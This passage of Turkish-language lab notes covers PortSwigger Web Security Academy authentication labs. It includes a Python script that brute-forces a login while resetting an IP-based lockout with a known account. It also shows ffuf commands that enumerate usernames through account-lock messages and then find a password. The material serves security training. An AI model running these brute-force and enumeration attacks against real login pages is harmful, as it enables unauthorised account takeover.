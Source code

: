 ```
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-User": "?1",
    "Sec-Fetch-Dest": "document",
    "Referer": "https://0a4d00fa04ea1d6b80be7b05006c00e9.web-security-academy.net/login",
    "Accept-Encoding": "gzip, deflate, br",
    "Priority": "u=0, i"
}
COOKIES = {"session":"xVlyRPvRiqmzPffMUEqMBK268DZqjMt0"}
u_directory = "SecLists/Usernames/PortSwiggerUsernames.txt"
p_directory = "SecLists/Passwords/PortSwiggerPasswords.txt"

regex_filter = 'You have made too many incorrect login attempts. Please try again in 1 minute(s).'

with open(p_directory,'r') as file:
    passwords = [line.strip() for line in file]

for i in range(0,100):
    payload_1 = f'username=carlos&password={passwords[i]}'
    response = r.post(url=url,headers=headers,cookies=COOKIES,data=payload_1)
    print(f'sending username: carlos with password : {passwords[i]}')
    if (i%4 == 0):
        passreset = r.post(url=url,headers=headers,cookies=COOKIES,data='username=wiener&password=peter')
        print('[IP Reset] : sending username: wiener with password : peter')
    if response.status_code == 302:
        r_pass = passwords[i]
        print(f'right password : {passwords[i]}')
        break
    if regex_filter in response.text:
        print('your code is wrong'.upper())
```

#### 7.Lab: Username enumeration via account lock

Labda fazla denemede account lock var. Farklı durumlarda verilen cevaplara göre username ve password deduction ediyoruz.
- önce hangi username değerinin valid olduğunu bulmak için 'You have made too many attempts' mesajını getirmeye çalışıyoruz
- aşağıdaki ffuf comman'ini beş kere çalıştırarak bunu bulabiliriz:
```
ffuf -u 'https://0a7a0021047324d481e585fd00b4001d.web-security-academy.net/login' -w ./Usernames/PortSwiggerUsernames.txt -X POST -d 'username=FUZZ&password=hellohellohellohellohellohellohellohellohelllo' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Cookie: session=sY4m5ub2tY4FCA0L7Zc9ofCiVSGJJHWs' -fs 3132
```
- bu istekte eğer istenen mesaj varsa doğal olarak cevap uzunluğu daha fazla olacağı için diğer mesajları filtreliyoruz.
- Hangi username değerinin valid olduğunu görükten sonra password enumeration için aşağıdaki ffuf command ini çalıştırıyoruz:
```
ffuf -u 'https://0a7a0021047324d481e585fd00b4001d.web-security-academy.net/login' -w ./Passwords/PortSwiggerPasswords.txt -X POST -d 'username=at&password=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Cookie: session=sY4m5ub2tY4FCA0L7Zc9ofCiVSGJJHWs' -fr 'too many','Invalid username or password'
```
Bu ffuf komutu bize doğru değerleri girdiğimizde ortaya çıkan cevap farklılığından dolayı password değerini göstermiş oluyor.
